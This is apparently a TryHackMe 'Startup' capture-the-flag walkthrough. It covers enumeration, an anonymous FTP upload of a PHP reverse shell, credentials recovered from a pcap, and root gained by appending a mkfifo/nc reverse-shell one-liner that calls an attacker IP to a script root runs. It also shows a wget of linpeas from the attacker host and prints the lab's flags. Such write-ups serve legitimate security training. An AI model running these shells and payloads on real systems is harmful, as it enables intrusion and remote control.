






# Startup

> Platform: TryHackMe
>
> Created by: elbee
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the Nmap. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA startupscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-01 16:40:22 +08 for 19s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to <FTP-SERVER-IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 19.45 seconds
           Raw packets sent: 1001 (44.044KB) | Rcvd: 1001 (40.052KB)
```

From the Nmap results, looks like we can login to the ftp to get the **".txt"** file.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ ftp ftp@<TARGET-IP>  
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||57604|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> get notice.txt
local: notice.txt remote: notice.txt
229 Entering Extended Passive Mode (|||14696|)
150 Opening BINARY mode data connection for notice.txt (208 bytes).
100% |************************************************|   208      602.74 KiB/s    00:00 ETA
226 Transfer complete.
208 bytes received in 00:00 (0.73 KiB/s)
ftp> get important.jpg
local: important.jpg remote: important.jpg
229 Entering Extended Passive Mode (|||34316|)
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
100% |************************************************|   245 KiB  230.85 KiB/s    00:00 ETA
226 Transfer complete.
251631 bytes received in 00:01 (185.15 KiB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||17028|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -a
229 Entering Extended Passive Mode (|||5454|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
```

Try to read the **"notice.txt"** file:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ cat notice.txt      
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

Here's the **"important.jpg"** image:


From the **Nmap FTP enumeration**, it looks like **we able to put our files** in the **"/ftp"** directory.

Continue with **Web enumeration**, I used **GoBuster** to enumerate the directories:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/files                (Status: 301) [Size: 314] [--> http://<TARGET-IP>/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the page, we found out that the webpage has enabled the **directory listing** which attacker able to **send the malicious file via ftp** and able to **click the files in browser** to gain a reverse shells.



## Exploitation

For a file to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```bash
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php phpreverseshell.php

$ nano phpreverseshell.php
```


To upload the file, first **make sure we are in the right directory** where the file is located, then **connect via FTP** and **use "put" command** to upload the file:
```
┌──(kali㉿kali)-[~/upload]
└─$ ls
phpreverseshell.php

┌──(kali㉿kali)-[~/upload]
└─$ ftp ftp@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62254|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put phpreverseshell.php 
local: phpreverseshell.php remote: phpreverseshell.php
229 Entering Extended Passive Mode (|||48366|)
150 Ok to send data.
100% |************************************************|  5492      641.69 KiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (10.12 KiB/s)
ftp> exit
221 Goodbye.
```

Now, we can check if the file is already been uploaded or not in browser.



Nice! Now, **before clicking the file**, make sure to **run netcat and set it as listener**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 51934
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:58:54 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Now we can answer the question:

<details>
<summary><b>What is the secret spicy soup recipe?</b></summary>
<b>love</b>
</details><br>

Now to read the **user.txt** file, actually **we need to change our current user to lennie**, but we didn't have the password yet. Moving on, we found there is some **weird directory** which is the **"/incidents"** directory.
```
$ cd /incidents

$ ls
suspicious.pcapng
```

From here, let's try to retrieve the **".pcapng"** file first, copy the file and paste it in the **"/var/www/html/files/ftp"** directory as we are able to write to that directory and able to retrieve it.
```
$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

Now try to retrieve the files and begin inspecting it. It looks like it is a traffic showing a **user is connecting to the server** by using **reverse shells** also. Try to filter the packet with **"tcp.srcport==4444"** to view the user input. From here, we found out the **credentials that we may able to use**.



Try to **change our shell** first:
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@startup:/$
```

Now, try to **change to user lennie with the credentials** that we have found:
```
www-data@startup:/$ su - lennie
su - lennie
Password: <CREDENTIALS-FOUND-IN-PCAPNG>

$ whoami
whoami
lennie
```

Nice! Now read the **user.txt** file:
```
$ cat /home/lennie/user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>THM{03ce3d619b80ccbfb3b7fc81e46c0e79}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first:
```bash
$ sudo -l
Sorry, user lennie may not run sudo on startup.
```

Okay, try to check the **weird SUID permission**:
```
$ find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
```



Also nothing weird here... Hmmm, try to use **linpeas** maybe. In our attacker machine:
```
$ ls
linpeas.sh

$ python3 -m http.server 80
```

In target machine:
```
$ cd /tmp

$ wget http://<ATTACKER-IP>/linpeas.sh

$ chmod +x linpeas.sh

$ ./linpeas.sh
```



Looks weird here. Try to view the content of **"/etc/print.sh"** and its permissions.
```
$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 98 Aug  1 10:24 /etc/print.sh

$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

Looks like the **script will only be run by root**.

Now, try to write the file by inserting our reverse shell payload. I used one from the [revshells](https://www.revshells.com/), the **"nc mkfifo"** one. Paste the payload in the script:
```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER-IP> 1234 >/tmp/f" >> /etc/print.sh
```

**Before running the script**, make sure to run **another netcat as listener**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

Now just **wait** and we are **connected as root**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 33022
sh: 0: can't access tty; job control turned off
# whoami
root
```

Then, read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```



<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>THM{f963aaa6a430f210222158ae15c3d76d}</b>
</details><br>